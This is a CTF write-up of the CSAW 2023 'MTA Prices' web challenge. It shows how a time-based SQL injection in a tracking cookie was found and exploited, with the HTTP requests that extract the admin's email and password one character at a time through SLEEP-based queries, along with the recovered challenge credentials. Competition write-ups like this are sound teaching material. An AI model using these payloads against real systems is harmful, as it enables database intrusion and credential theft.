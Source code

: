 # CSAW 2023

# MTA Prices

> Time-based SQli

## How to identify

You can leverage the trackID in the cookie to manipulate the content of the **session,** which the server sends to us in the response header:

Also, if we modify the trackID to an unintended one, the value of the email field in the **session** will be "**Error**".

Importantly, this is a point where we can manipulate user input to get anomalies.

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-dcfcaf77c3e0c7483838aa34d2b5bfef.png)

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-5427e8f851f0891eb0fb679d9ddae823.png)

## Proof of Concept

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBk'+sleep(5)+'O4Fp2KuGsB;
Connection: keep-alive
```

The email showing no error means the SQL commands have been successfully executed.

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-26eab2848c1a5e25ca88e0f7fbf4a59d.png)

## Exploitation

Replace the [ARG1](https://github.com/superboy-zjc/CTF-Writeups/blob/main/CSAW%202023/1-20.list) and [ARG2](https://github.com/superboy-zjc/CTF-Writeups/blob/main/CSAW%202023/allprintable.list) with your dictionaries…

> ARG1: numbers from 0 to 20
> ARG2: all the printable characters: ASCII 32 - 126

**Get admin’s email:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(email,${ARG1},1) from users where privilege LIKE 'admin%' limit 0,1)=binary('${ARG2}'),SLEEP(10),'a'))+';
Connection: keep-alive
```

**Get admin’s password:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(password,${ARG1},1) from users where email='emily.brown@mta.com' limit 0,1)=binary('${ARG2}'),SLEEP(1),'a'))+';
Connection: keep-alive

```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-02-43-0cf51a4f002f680bbc21430613de9582.png)

```php
mail - > emily.brown@mta.com
password -> p#2r@5ml8q7v!9x$1
```

![Untitled](https://api.2h0ng.wiki:443/noteimages/2023/09/18/01-06-02-59382736bafdc07265d1f28add506c0f.png)

# Reference

[https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection.md#extract-database-with-information_schema](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema)

[https://superboy-zjc.github.io/2020/08/05/阶段四、Web渗透测试/7、SQL注入/#二、SQL注入的注入点](https://superboy-zjc.github.io/2020/08/05/%E9%98%B6%E6%AE%B5%E5%9B%9B%E3%80%81Web%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/7%E3%80%81SQL%E6%B3%A8%E5%85%A5/#%E4%BA%8C%E3%80%81SQL%E6%B3%A8%E5%85%A5%E7%9A%84%E6%B3%A8%E5%85%A5%E7%82%B9)